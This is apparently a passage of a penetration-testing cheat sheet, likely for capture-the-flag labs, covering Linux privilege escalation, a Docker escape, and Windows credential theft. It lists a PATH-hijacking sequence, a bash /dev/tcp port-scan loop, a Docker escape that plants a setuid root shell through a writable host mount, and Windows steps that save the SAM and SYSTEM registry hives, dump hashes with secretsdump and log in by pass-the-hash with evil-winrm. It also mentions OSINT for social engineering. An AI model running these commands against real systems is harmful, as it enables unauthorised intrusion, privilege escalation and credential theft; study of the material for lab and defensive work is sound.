 - ###### LXC/LXD
  - `https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-2`

##### PATH:
- `ltrace pandora_backup`
- `which tar`
- `echo $PATH`
- `export PATH=/tmp:$PATH`

##### Kernel Exploits:
- `sudo -V`

### DOCKER ESCAPE
#### METHOD1: Directory from the host is mounted with read/write flag enabled
- Find Host IP:
  - `ifconfig`

- Enumerate Ports:
  - `for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done`

- SSH:
  ```
  ssh augustus@172.19.0.1`
  cp /bin/bash .
  exit
  ```

- Docker Container:
  ```
  chown root:root bash`
  chmod 4755 bash`
  ./bash -p`
  ```
## WINDOWS
```
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
evil-winrm -i 10.10.136.177 -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
```


# HACKING
## Information Gathering
- Gather information about the target organization, including email addresses, employee names, and public information.
- Use OSINT (Open-Source Intelligence) techniques to find additional attack vectors or social engineering opportunities.
